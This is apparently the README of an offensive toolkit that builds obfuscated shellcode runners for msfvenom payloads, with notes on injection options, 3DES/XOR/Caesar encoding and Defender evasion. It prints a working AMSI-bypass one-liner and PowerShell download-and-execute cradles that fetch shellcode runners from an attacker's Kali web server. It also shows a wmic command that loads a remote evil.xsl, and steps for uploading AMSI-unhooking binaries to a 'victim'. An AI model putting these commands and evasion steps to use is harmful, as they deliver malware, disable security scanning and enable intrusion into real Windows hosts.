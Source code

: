 # Description

## Usage

### Static Variables 
| Variables | Description |
| --- | --- |
| PROCESS_TO_INJECT | Contains the process names that you want to inject into|
| MSFVENOM_PAYLOAD | MSF Payload |
| LHOST | Listener IP |
| LPORT | Listener Port | 

### Payload prefixes
| Name | Description |
| --- | --- |
| _embedded | If the generated payload contains the word **embedded** then the **shellcode** is located inside the generated executable. |
| _marshal | If the generated payload contains the word **marshal** then payload will be injected to executable's memory space. |
| _numa | If the generated payload contains the word **numa** then **VirtualAllocExNuma** was used insetad of **VirtualAllocEx** |
| _FlsAlloc | If the generated payload contains the word **FlsAlloc** then **FlsAlloc** API was used. |

#### Example
When payload is generated with name shellcode_runner_assembly_FlsAlloc_marshal.exe, it means:
- FlsAlloc API was used
- The Shellcode will be injected to executable's address space (Not to a remote process).
--
### Payload execution

**[+] Triple DES [+]**

The 3DES payloads are located under payloads/3DES/ directory. There are two payloads and need to be executed diferrently. 

#### Method 1
The executable **des_decryptor.exe** is downloading the file from your Web server and executes it reflectively.
```cmd> des_decryptor.exe http://KALI_IP/<SHELLCODE_RUNNER>```

#### Method 2
The executable embedds a shellcode runner. You can run it without providing any commands. 
```cmd> des_decryptor_embedded.exe```

--

**[+] AMSI Bypass [+]**
There are two methods to bypass AMSI:
- Patching 
- Unhooking

#### Method 1
Patching template is what Offensive-Security teaches in OSEP with some small changes. The execution of 1st method (Patching) is straight forward and uses well-known methodologies.
```$m="System.Management.Automation.Ams";[Ref].Assembly.GetType("$m"+"iUtils").GetField('amsiInitFai'+'led','NonPublic,Static').SetValue($null,$true)```

```
# XOR RAX,RAX 
$buf = [Byte[]] (0x48,0x31,0xC0)  
```

Execute AMSI Shellcode runner
``` powershell -nop -exec bypass -c IEX((New-Object Net.WebClient).DownloadString('http://<IP>/shellcode_runner.html')); ``` 

#### Method 2
To unhook AMSI, I've used the project by jfmaes - AmsiHooker (https://github.com/jfmaes/AmsiHooker) and I permfored some small changes. When AmsiHooker executable will launched, it will download the Shellcode Runner from your web server and it will reflectively execute it.

**Steps**
1. Upload unhook_amsi.exe and MinHook.NET.dll to victim. (Files located under payloads/AMSI/)
2. unhook_amsi.exe http://<KALI>/shellcode_runner.exe

--

 **[+] Executing .XSL, .JS, .HTA [+]**

Under directory payloads/DotNetToJScript/, you find three shellcode ruuners that generated with DotNetToJScript (https://github.com/tyranid/DotNetToJScript). 

Executing .XSL shellcode runner
```
wmic process list /FORMAT:evil.xsl
wmic os get /FORMAT:"https://example.com/evil.xsl"
```

Executing .HTA shellcode runner
```
mshta c:\users\public\shellcode_runner.hta
```

Executing .JS shellcode runner
```
wscript c:\users\public\shellcode_runner.js
```

More execution methods can be found:
- https://lolbas-project.github.io/


**[+] ConfuserX + Net-Obfuscator [+]**

During my tests, I noticed that Windows Defender could detect my payloads genereted by ConfuserEx (https://github.com/yck1509/ConfuserEx). For this reason, I combined ConfuserEx + Net-Obfuscator (https://github.com/BinaryScary/NET-Obfuscate). 

First, payloads that are located under payloads/XOR/ and payloads/Caesar/ directories, feed the ConfuserEx tool and subsequently the new obfuscated binaries are imported to Net-Obfuscator. As a result, the GetType and GetMethod values are obfuscated and  dynamically created.

Example 1 - Execution of 'payloads/Caesar/shellcode_runner_assembly_numa.exe' Reflectively.
```
[+] Creating DLL/EXE file (ConfuserEx + .NET Obfuscator) ...

 [!] Obfuscating CAESAR -> shellcode_runner_assembly_numa.exe
 [*] PS>$data=(New-Object System.Net.WebClient).DownloadData('http://192.168.119.120/shellcode_runner.exe|dll')
 [*] PS>$ass=[System.Reflection.Assembly]::Load($data)
 [*] PS>$ass.GetType("J46IIOTXPW.PZAZUJAD4V").GetMethod("NK6WAROB2W").Invoke($null,$null)
```
